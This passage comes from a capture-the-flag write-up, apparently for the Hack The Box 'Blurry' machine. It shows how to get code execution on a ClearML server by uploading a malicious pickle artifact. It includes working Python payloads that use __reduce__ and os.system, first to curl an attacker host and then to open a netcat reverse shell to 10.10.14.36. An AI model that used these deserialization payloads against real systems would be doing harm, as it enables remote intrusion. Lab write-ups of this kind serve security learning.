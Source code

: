 Now that we have ClearML cofigured, we wil creata a Python script creating a malicious pickle object and uploading it as an artifact to a ClearML project:

```python
import pickle,os

class RunCommand:
    def __reduce__(self):
        return (os.system, ('curl http://10.10.14.36:8000/pwn',))


command = RunCommand()



from clearml import Task

task = Task.init(project_name='Black Swan', task_name='pickle_artifact_upload', tags=["review"], output_uri=True)

task.upload_artifact(name='pickle_artifact', artifact_object=command, retries=2, wait_on_upload=True, extension_name=".pkl")


with open('pickle_artifact.pkl','wb') as f:
    pickle.dump(command,f)
```

Let's run the script:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/blurry/image-13.png)

We can see that the curl command is successfully executed and we get incoming connection on our Python server:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/blurry/image-14.png)

We have no confirmed RCE. 

Let's modify the script to get a reverse shell:

```python
class RunCommand:
    def __reduce__(self):
        return (os.system, ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.36 1337 > /tmp/f',))
```
